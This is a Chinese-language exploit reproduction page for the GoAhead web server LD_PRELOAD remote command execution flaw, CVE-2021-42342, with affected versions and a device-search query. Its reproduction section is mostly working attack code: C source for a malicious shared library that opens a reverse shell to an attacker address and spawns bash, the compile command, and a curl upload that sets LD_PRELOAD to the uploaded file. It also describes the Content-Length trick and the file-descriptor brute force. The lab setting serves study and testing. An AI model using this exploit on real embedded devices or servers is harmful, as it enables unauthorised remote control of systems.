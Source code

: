 # Goahead LD_PRELOAD 远程命令执行漏洞 CVE-2021-42342

## 漏洞描述

GoAhead是一个开源(商业许可)、简单、轻巧、功能强大、可以在多个平台运行的Web Server，多用于嵌入式系统、智能设备。其支持运行ASP、Javascript和标准的CGI程序。

这个漏洞是 CVE-2017-17562 漏洞补丁的绕过，攻击者可以利用该补丁没有考虑到的multipart表单控制目标服务器的环境变量，进而劫持LD_PRELOAD来执行任意代码。

## 漏洞影响

<a-checkbox checked>5.x <= GoAhead web-server < 5.1.5</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="GoAhead"</a-checkbox></br>

## 漏洞复现

使用Vulnhub下的靶场进行搭建

![img](../../../.vuepress/public/img/1657072904829-9775cbdc-249f-42d1-8d8b-f7f016600500.png)

编译恶意 so 文件

```php
#include<stdio.h>
#include<stdlib.h>
#include<sys/socket.h>
#include<netinet/in.h>

char *server_ip="";
uint32_t server_port=7777;

static void reverse_shell(void) __attribute__((constructor));
static void reverse_shell(void) 
{
  int sock = socket(AF_INET, SOCK_STREAM, 0);
  struct sockaddr_in attacker_addr = {0};
  attacker_addr.sin_family = AF_INET;
  attacker_addr.sin_port = htons(server_port);
  attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
  if(connect(sock, (struct sockaddr *)&attacker_addr,sizeof(attacker_addr))!=0)
    exit(0);
  dup2(sock, 0);
  dup2(sock, 1);
  dup2(sock, 2);
  execve("/bin/bash", 0, 0);
}
gcc evil.c -fPIC -s -shared -o evil.so
```

发送 evil.so 恶意文件

```php
curl -v -F data=@evil.so -F "LD_PRELOAD=/proc/self/fd/0" http://xxx.xxx.xxx.xxx:8080/cgi-bin/hello
```

发送请求后抓包将`Content-Length`设置成小于最终的数据包Body大小，并爆破 `/proc/self/fd/1 反弹 shell `

![img](../../../.vuepress/public/img/1657075996296-e5f8e37e-33db-424b-a040-5e890fad829a.png)
